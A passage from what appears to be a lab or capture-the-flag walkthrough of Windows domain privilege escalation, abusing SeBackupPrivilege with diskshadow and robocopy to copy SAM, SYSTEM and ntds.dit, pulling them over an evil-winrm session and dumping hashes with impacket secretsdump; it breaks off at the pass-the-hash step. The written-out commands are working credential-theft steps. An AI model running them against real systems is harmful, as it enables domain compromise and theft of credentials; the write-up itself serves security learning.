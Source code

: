 We find a note in the while rooting around in the base directory.

![Image](/assets/Screenshot 2024-09-18 at 1.15.59 PM.png)

A bit of housekeeping here. We notice, in the `whoami /all` output and note, the mention of backing up privileges tied to this account. We can confirm with Bloodhound. It's called `SEBackupPrivilege`. In theory, we should then be able to backup data, namely the `SYSTEM`, `SAM`, and `ntds.dit` directories. These are the important files that allow us to get access to critical AD information. Once we back it up, we should be able to transfer the copies to our machine, where we can dump secrets!

Also, before we do anything, let's create a `/temp` directory where we can keep things organized while we work. If this was a real assessment, we'd need to make sure to clean this up afterwards.

It took me awhile to figure this out, and in the meantime, I tried to run various priv-esc scripts on the machine. I couldn't get a single file to run, and I think it was because of AV software. Just points that I should've known to look elsewhere!
Let the answers guide you...

We can use the following sequence of commands to creates a shadow copy of the `C:\` drive, in doing so, we'll be able to access any file we want, including the `SYSTEM` and `SAM` file. `diskshadow.exe` is the tool, and it's already installed on windows servers by default. The caveat is, because using the tool requires an interactive session, we'll have to make a `.txt` file emulating the data that we can feed into `diskshadow.exe`. Then, we can execute the necessary commands to create the shadow. The headlined version of the commands is this: We tell `diskshadow` to create a copy of `C:` and name it `Z:`, while making it accessible to us.

```
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
```

Now, after checking to see that the drive was created, and it has the files we need, we can transfer them to our `/temp` directory with `robocopy`.

`robocopy /b Z:\Windows\System32\Config C:\temp SAM`
`robocopy /b Z:\Windows\System32\Config C:\temp SYSTEM`
`robocopy /b Z:\Windows\ntds C:\temp NTDS`

Now we can download them onto our machine:

`download ntds.dit`
`dowload SAM`
`download SYSTEM`

We can rely on `impacket` to dump the secrets with the command below:

`python3 secretsdump.py -system SYSTEM -ntds ntds.dit -sam SAM LOCAL`

MAKE SURE TO USE CORRECT `secretsdump.py`. Some are finicky and will not work. If you have issues, do 
`pip3 install .` in the root directory of the tool. Copy the new version over and try again.

Make sure to use the correct version of the `Administrator` hashes.

Once gotten, use the NT part of the hash to change `evil-winrm` shells:
